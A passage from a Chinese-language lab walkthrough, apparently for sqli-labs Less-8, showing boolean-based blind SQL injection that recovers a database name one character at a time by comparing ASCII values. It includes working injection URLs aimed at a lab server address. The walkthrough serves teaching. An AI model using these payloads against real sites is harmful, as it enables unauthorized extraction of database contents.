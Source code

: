 3.爆数据库

我们进行判断的时候因为是用ascii进行判断的，所以我们判断完成以后还需要吧ascii转换成相应的数值。首先我们分享一个acill码表

>https://tool.oschina.net/commons?type=4

首先，我们来猜测数据库名的第一个字母

>http://39.98.88.18:8080/sql/Less-8/index.php?id=1%27%20and%20(ascii(substr(database(),1,1)))%3E100--+

返回成功，第一个字母的ascii值大于100.

继续判断

http://39.98.88.18:8080/sql/Less-8/index.php?id=1%27%20and%20(ascii(substr(database(),1,1)))>120--+

![](img/2.7/11.png)

报错，说明第一个字符的ascii值在100到120之间。继续判断。。。。

最终得出，第一个字符的ascii值是115

![](img/2.7/12.png)
